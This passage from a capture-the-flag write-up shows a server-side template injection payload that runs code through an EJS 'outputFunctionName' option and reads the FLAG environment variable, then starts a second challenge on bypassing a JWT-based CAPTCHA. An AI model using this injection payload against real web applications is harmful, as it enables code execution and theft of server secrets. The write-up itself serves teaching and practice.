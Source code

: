 * This was the payload available in the PoC, but the challenge had no network access, so we couldn't get a reverse shell.

* However, in the PoC, we observed that the `__append` function can be used to render something back in the HTML.

* Therefore, we used this approach to retrieve the flag.

```
Final Payload = breed=Pekin&settings[view options][outputFunctionName]=x;var flag = Deno.env.get('FLAG');__append(flag);s
```
* And it successfully rendered the flag on the html back.

![Flag](./assets/images/web/duck/flag.png)

**Flag**: `bcactf{a_l1Ttl3_0uTd4T3d_qYR8IeICVTLPU0uK}`


# Web/Fogblaze
> **Description** : Can you bypass this website's new stateless CAPTCHA system? \
> **Hint** : The `challengeId` for `SCLN` would be `1e8298221a767bb37c01eb0cc61d1775`. \
> **Author** : `Thomas`

## Solution
In this challenge, we are required to solve 75 CAPTCHAs in sequence to obtain the flag. When a CAPTCHA is generated, a JWT token is generated alongside it. By decrypting the JWT token, we can see that it contains a field named `challengeId`. 
